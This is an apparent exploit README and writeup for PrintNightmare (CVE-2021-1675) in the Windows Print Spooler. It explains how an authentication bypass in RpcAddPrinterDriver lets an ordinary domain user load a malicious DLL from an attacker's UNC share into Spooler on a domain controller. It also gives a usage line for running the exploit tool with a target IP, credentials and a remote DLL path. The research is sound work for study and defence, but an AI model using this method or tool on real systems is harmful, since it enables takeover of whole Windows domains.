



## PrintNightmare (CVE-2021-1675): Remote code execution in Windows Spooler Service

### This is a backup of the PoC that is being deleted from everywhere.
#### You can access to this backup on one of the Microsoft's repo here : https://github.com/microsoft/securitydev/tree/153a

Ten years ago, an escalation of privilege bug in Windows Printer Spooler was used in Stuxnet, which is a notorious worm that destroyed the nuclear enrichment centrifuges of Iran and infected more than 45000 networks. In the past ten years, spooler still has an endless stream of vulnerabilities disclosed, some of which are not known to the world, however, they are hidden bombs that could lead to disasters. Therefore, we have focused on spooler over the past months and reaped fruitfully.

 

The beginning of the research is PrintDemon from which we get inspiration. After digging into this bug deeper, we found a way to bypass the patch of MS. But just after MS released the new version, we immediately found a new way to exploit it again. After the story of PrintDemon, we realized that spooler is still a good attack surface, although security researchers have hunted for bugs in spooler for more than ten years. We started to explore the inner working of Printer Spooler and discovered some 0-day Bugs in it. Some of them are more powerful than PrintDemon and easier to exploit, and the others can be triggered from remote which could lead to remote code execution.

 

CVE-2021-1675 is a remote code execution in Windows Print Spooler. According to MSRC security bullion, this vulnerability is reported by Zhipeng Huo, Piotr Madej and Zhang Yunhai. 

We also found this bug before and hope to keep it secret to participate Tianfu Cup ☹. As there are some people already published exploit video of CVE-2021-1675. Here we publish our writeup and exploit for CVE-2021-1675. 

 

For more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

 

## RpcAddPrinterDriver

Adding a Printer Driver to a Server (RpcAddPrinterDriver)

Let check the MS-RPRN: Print System Remote Protocol about the RpcAddPrinterDriver call.

To add or update a printer driver ("OEM Printer Driver") to a print server ("CORPSERV"), a client ("TESTCLT") performs the following steps.

1. The client can use the RPC call RpcAddPrinterDriver to add a driver to the print server.

2. The client ensures that the files for the printer driver are in a location accessible to the server. For that purpose, the client can share a local directory containing the files, or use [MS-SMB] to place the files into a directory on the server

3. The client then allocates and populates a DRIVER_INFO_2 structure as follows:

   pName = L"OEM Printer Driver";

   pEnvironment = L"Windows NT x86"; /* Environment the driver is compatible with */

   pDriverPath = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDRV.DLL";315 / 415

   [MS-RPRN] - v20200826

   Print System Remote Protocol

   Copyright © 2020 Microsoft Corporation

   Release: August 26, 2020

   pDataFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDATA.DLL";

   pConfigFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMUI.DLL";

4. The client allocates a DRIVER_CONTAINER driverContainer structure and initializes it to contain the DRIVER_INFO_2 structure.

5. The client calls RpcAddPrinterDriver.

   RpcAddPrinterDriver( L"\\\\CORPSERV", &driverContainer );

 

## CVE-2021-1675 Analysis

Clearly, if an attacker can bypass the authentication of RpcAddPrinterDriver. He could install an malicious driver in the print server. In msdn, the client need SeLoadDriverPrivilege to call the RPC. However, this isn’t true. Let check the authentication logical here:



ValidateObjectAccess is a normal security check for Spooler Service. But in line 19 and 20, argument a4 is user controllable. So, a normal user can bypass the security check and add an driver. If you are in the domain, a normal domain user can connect to the Spooler service in the DC and install a driver into the DC. Then he can fully control the Domain.

 

## Exploit

But the real attack is not that simple. To exploit the authentication bypass bug, we need to understand what the Spooler service will do when you calling RpcAddPrinterDriver. Suppose you supply there path to the service

​	pDataFile =A.dll

​	pConfigFile =\\attackerip\\Evil.dll

​	pDriverPath=C.dll

 

It will copy A,B and C into folder C:\Windows\System32\spool\drivers\x64\3\new. And then it will copy them to C:\Windows\System32\spool\drivers\x64\3, and load C:\Windows\System32\spool\drivers\x64\3\A.dll and C:\Windows\System32\spool\drivers\x64\3\C.dll into the Spooler service. However, in the latest version, Spooler will check to make sure that A and C is not a UNC path. But as B can be an UNC path, so we can set pConfigFile as an UNC path (an evildll). This will make our evildll Evil.dll be copied into C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. Then call RpcAddPrinterDriver again, to set pDataFile to be C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. It will load our evil dll. Unfortunate, it does not work. Because if you set A, B, C in the folder C:\Windows\System32\spool\drivers\x64\3\. There will be an access conflict in file copy. To bypass this, we need to use the backup feature of driver upgrade. If we upgrade some driver, the old version will be backup into C:\Windows\System32\spool\drivers\x64\3\old\1\ folder. Then we can bypass the access conflict and success inject our evil.dll into spooler service. 

Successfully load our dll:

 ## Usage


```
.\PrintNightmare.exe dc_ip path_to_exp user_name password

Example:
.\PrintNightmare.exe 192.168.5.129 \\192.168.5.197\test\MyExploit.dll user2 test123##
```

 

 
Tested on windows sever 2019 1809 17763.1518


## Impact

This vulnerability can be used to achieve LPE and RCE. As for the RCE part, you need a user to authenticated on the Spooler service. However, this is still critical in Domain environment. Because normally DC will have Spooler service enable, a compromised domain user may use this vulnerability to control the DC.

 

Here are more hidden bombs in Spooler, which is not public known. We will share more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

## Credit

Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@lxf02942370)
